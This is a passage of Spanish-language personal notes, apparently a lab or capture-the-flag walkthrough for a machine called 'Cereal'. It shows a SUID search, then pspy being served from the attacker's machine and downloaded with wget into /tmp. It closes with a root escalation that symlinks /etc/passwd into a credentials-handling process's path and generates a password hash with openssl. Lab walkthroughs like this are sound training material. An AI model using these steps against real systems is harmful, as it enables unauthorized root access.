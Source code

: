 ```
find / -perm -4000 -ls 2>/dev/null
```

![[Pasted image 20230801122449.png]]

==El ataque consiste en revisar los procesos que hace la maquina y aprobecharnos de alguno de ellos., la herramienta pspy nos ayudara con esto.

![[Pasted image 20230801125810.png]]

==Se debe alojar en nuestro pc para después desplegar un servicio http y descargarla desde la shell de Cereal

```
sudo python3 -m http.server 80
```

![[Pasted image 20230801130153.png]]

```
cd /tmp/
wget 192.168.153.142:80/pspy64
```

![[Pasted image 20230801130203.png]]

==Condescender permisos y ejecutar.
```
chmod +x pspy64
./pspy64
```

![[Pasted image 20230801130242.png]]
![[Pasted image 20230801130341.png]]

---
### Escalamiento a root.

==La maquina tiene un proceso el cual le credenciales de una ruta accesible la cual podemos clonar y modificar.,

ln -s -f /etc/passwd passwd
ls -l

![[Pasted image 20230801133848.png]]

```
cat passwd
```

![[Pasted image 20230801133928.png]]

```
openssl passwd
hola
hola
```
